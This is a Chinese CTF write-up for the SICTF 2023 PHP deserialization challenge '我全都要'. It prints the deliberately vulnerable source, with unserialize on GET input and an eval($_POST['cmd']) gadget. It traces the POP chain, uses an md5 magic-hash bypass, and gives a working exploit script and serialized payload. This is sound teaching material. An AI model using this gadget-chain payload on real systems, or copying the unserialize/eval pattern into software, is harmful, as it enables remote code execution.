 ```yaml
---
layout: mypost
title: "[SICTF 2023]我全都要"
categories: [ctf_wp]
---
```


（这道题还是一个关于 PHP 的一道反序列化题目，不懂这块的还是先去看看这篇文章--正 OR 反序列化）

1.dd 给大家看这道题的源代码

```
<?php
highlight_file(__FILE__);

class B{
    public $pop;
    public $i;
    public $nogame;

    public function __destruct()
    {
        if(preg_match("/233333333/",$this->pop)){
            echo "这是一道签到题，不能让新生一直做不出来遭受打击";
        }
    }

    public function game(){
        echo "扣1送地狱火";
        if ($this->i = "1"){
            echo '<img src=\'R.jpg\'>';
            $this->nogame->love();
        }
    }

    public function __clone(){
        echo "必须执行";
        eval($_POST["cmd"]);
    }
}


class A{
    public $Aec;
    public $girl;
    public $boy;

    public function __toString()
    {
        echo "I also want to fall in love";
        if($this->girl != $this->boy && md5($this->girl) == md5($this->boy)){
            $this->Aec->game();
        }
    }


}


class P{
    public $MyLover;
    public function __call($name, $arguments)
    {
        echo "有对象我会在这打CTF???看我克隆一个对象！";
        if ($name != "game") {
            echo "打游戏去，别想着对象了";
            $this->MyLover = clone new B;
        }
    }

}

if ($_GET["A_B_C"]){
    $poc=$_GET["A_B_C"];
    unserialize($poc);
}
```

简单做个分析，还是先找危险函数很显然就是这个 B 类里面的\_\_clone(),这个往前推就是 P.\_\_call（），因为要执行这个\_\_call 的函数，就是要找到一个不存在该类中的方法，很显然就是 B.game()，而调用此方法的话就会用到 A.\_\_toString()，再往前推就是 B.\_\_destruct()了

2.然后有个同届的人问我，在从正则到 tostring 这一步，最正常的写法应该就是''$a->pop=$b;''，但能不能写成''$a->i=$b;''然后"$a->pop=$a->i"呢？但我给大家画张图，你们应该就明白了

![](image-20231102201910492.png)

现在应该是这个样子的，他想如果把 pop 再等于$a的话，pop是不是就相当于是包含i了，进一步的话，也是包含$b 的，但你看图，如果 pop 再等于$a的话，大家可能想的是应该就是在pop这个小格子里面继续去分，但其实并不是这样的，就是实实在在的pop完全包含了$a，可能这里有点抽象，它们之间的关系就是一种你包含我，我也包含你的互相包含的关系，下面我也自己写了一个例子

```
<?php
class Person{
    public $name;
    public $sex;
    public function __destruct()
    {
            echo "我觉得我还可以再抢救一下，我的名字叫".$this->name;
    }
}


class A{
    public $Aec;
    public $girl;
    public $boy;

    public function __toString()
    {
            echo "I also want to fall in love";
    }


}

$a = new Person();
$b = new A();
$a->sex = $b;
$a->name = $a->sex;
unset($a);
?>
```

![](image-20231102205951511-1024x395.png)

你看，这样也是能正常输出的

3.诶呀诶呀跑偏了，具体的再那篇文章--正 XOR 反序列化再说吧，然后这道题的 pop 链就是

```
B.__destruct() --> A.__toString() --> B.game() --> P.__call() --> B.__clone()
```

根据这个还是很容易就能写出 exp 的

```
<?php
class B{
    public $pop='233333333';
    public $i="1";
    public $nogame;
}

class A{
    public $Aec;
    public $girl='QNKCDZO';
    public $boy='240610708';
}

class P{
    public $MyLover;
}
$a=new B();
$b=new A();
$c=new P();
$a->pop=$b;
$b->Aec=$a;
$b->Aec->nogame=$c;
echo serialize($a);
?>
```

得到结果

```
O:1:"B":3:{s:3:"pop";O:1:"A":3:{s:3:"Aec";r:1;s:4:"girl";s:7:"QNKCDZO";s:3:"boy";s:9:"240610708";}s:1:"i";s:1:"1";s:6:"nogame";O:1:"P":1:{s:7:"MyLover";N;}}
```

得到 flag

![](屏幕截图-2023-09-10-114617-1024x506.png)

Finish!!!
